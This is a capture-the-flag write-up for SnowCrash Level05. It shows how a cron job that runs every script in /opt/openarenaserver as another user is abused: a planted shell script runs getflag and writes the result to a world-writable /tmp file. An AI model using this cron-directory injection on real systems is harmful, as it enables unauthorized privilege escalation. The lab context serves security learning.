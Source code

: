 #SnowCrash Level05

At first we find nothing at the home directory.
After checking the enviroment variables, we find :
```
level05@SnowCrash:~$ env
	[...]
	MAIL=/var/mail/level05
	[...]
```

Cating that :
```
level05@SnowCrash:~$ cat $MAIL
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Interesting, let's see what the script does : (knowing that every 2nd minute
the script launched.)
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

So basically in every 2nd minutes every script in ```/opt/openarenaserver``` is
executed. And then deleted.
Let's create a .txt file and give it the right permissions so flag05 can write to it :
```
level05@SnowCrash:~$ touch /tmp/gitflag
level05@SnowCrash:~$ chmod 777 /tmp/gitflag
level05@SnowCrash:~$ vim /opt/openarenaserver/gf.sh
	[...]
	#!/bin/sh
	getflag > /tmp/gitflag
	[...]
level05@SnowCrash:~$ cat /tmp/gitflag
Check flag.Here is your token :
```